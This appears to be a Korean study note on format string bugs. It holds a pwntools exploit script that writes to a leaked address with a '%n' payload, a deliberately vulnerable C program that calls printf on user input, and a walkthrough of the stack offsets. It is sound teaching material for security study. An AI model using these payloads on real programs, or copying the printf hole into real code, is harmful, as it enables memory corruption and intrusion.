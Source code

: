 ```
from pwn import *

p = process("./fsb_aaw")

p.recvuntil("`secret`: ")

secret_addr = int(p.recvline()[:-1], 16)


payload = b"%31337c%8$n".ljust(16)
payload += p64(secret_addr)

# payload = b"%31337c".ljust(8)
# payload += b"%8$n".ljust(8)
# payload += p64(secret_addr)

p.sendline(payload)
p.interactive()
```

# 포맷 스트링 버그 예제

```
// fsb_auth.c

#include <stdio.h>

int main(void) {
  int auth = 0x42424242;
  char buf[32] = {0, };
  
  read(0, buf, 32);
  printf(buf);
  
  // make auth to 0xff
}
```

해당 바이너리를 살펴보면, `printf`의 포맷 스트링으로 사용되는 `buf`를 사용자가 직접 입력할 수 있다.

여기서 `auth`는 아래의 이미지와 같이 `buf - 0x4`의 주소에 위치하는데 `auth`의 값을 `0xff`로 덮어쓰려면 어떤 값을 입력해줘야 할까?

<img width="547" alt="image" src="https://github.com/user-attachments/assets/79091f12-422f-485f-a94f-6bc96505bb41">

먼저, 아래와 같이 `aaaaaaaa%7$p`를 입력해보면, `1`이 출력되는데 이는 `printf_stackframe`에 저장된 `1`이 출력되고, `[rsp]` 임을 알 수 있다.

<img width="721" alt="image" src="https://github.com/user-attachments/assets/40962071-ce92-425a-ae52-6b8df988354a">

그리고, 잘 살펴보면 `auth`가 `rsp + 12`에 위치하기 때문에 8바이트 단위로 끊겨있지 않다. 따라서 `%[n]$n`으로 직접적으로 `[rsp + 0x__]`에 입력해줄 수 없고, `auth`에 입력할 때는 8바이트로 끊기는 `[rsp + 0x__]`에 `auth`의 주소를 넣은 후 `%n`으로 `0xff`를 대입해줘야 한다.
